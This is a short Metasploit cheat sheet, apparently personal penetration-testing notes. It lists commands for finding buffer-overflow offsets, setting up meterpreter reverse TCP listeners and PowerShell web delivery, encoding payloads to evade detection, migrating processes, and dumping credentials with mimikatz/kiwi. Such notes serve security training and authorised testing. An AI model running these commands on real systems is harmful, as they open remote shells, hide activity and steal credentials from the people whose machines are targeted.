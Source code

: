 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Migrate shell into notepad.exe process
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Pose-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
###### multi/handler payload encode
```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```
###### Migrating Processes
Note that we are only able to migrate into a process executing at the same privilege and integrity level or lower than that of our current process.
```
ps
migrate pid
```
###### Meterpreter command to use powershell
```
meterpreter > :
load powershell
help powershell
powershell_execute "$PSVersionTable.PSVersion"
```
###### Meterpreter command to use mimikatz
```
meterpreter > :
load kiwi
getsystem
creds_msv
```
##### Add own rb exploit
exploit/multi/http/jenkins_nodejs_rce
```
under /home/kali/.msf4
create ../exploits/multi/http folder
put rb in it
msfconsole
search name
```
